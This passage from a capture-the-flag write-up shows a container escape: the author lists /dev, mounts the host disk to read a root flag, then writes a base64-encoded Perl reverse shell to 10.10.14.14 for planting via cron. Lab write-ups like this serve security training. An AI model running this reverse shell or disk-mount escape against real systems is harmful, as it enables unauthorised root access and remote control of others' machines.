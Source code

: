 
But on backup, I see a lot more, including the disks:

    
    
    # ls /dev
    agpgart
    autofs
    bsg  
    btrfs-control
    bus   
    ...
    sda
    sda1
    sda2
    sda3
    sda4
    sda5
    ...
    # ls /dev/ | wc -l
    184
    

This raw device access is enough to provide file system access:

    
    
    # mount /dev/sda1 /mnt
    # ls /mnt/root/
    root.txt
    

_July 2023 update: It seems the machine got updated at some point, and the
partition with the host file system is now`/dev/sda2`._

Now I can grab the flag:

    
    
    # cat /mnt/root/root.txt
    50d0db64...
    

### root Shell

With write access to `/etc/cron.d`, I can get a root shell easily. And,
reddish can talk directly home, so I don’t have to make tunnels, which is
nice. Write a shell script:

    
    
    # echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTAuMTQuMTQiOyRwPTkwMTA7c29ja2V0KFMsUEZfSU5FVCxTT0NLX1NUUkVBTSxnZXRwcm90b2J5bmFtZSgidGNwIikpO2lmKGNvbm5lY3QoUyxzb2NrYWRkcl9pbigkcCxpbmV0X2F0b24oJGkpKSkpe29wZW4oU1RESU4sIj4mUyIpO29wZW4oU1RET1VULCI+JlMiKTtvcGVuKFNUREVSUiwiPiZTIik7ZXhlYygiL2Jpbi9zaCAtaSIpO307Jwo= | base64 -d > shell.sh
    # cat /mnt/opt/shell.sh
    perl -e 'use Socket;$i="10.10.14.14";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
    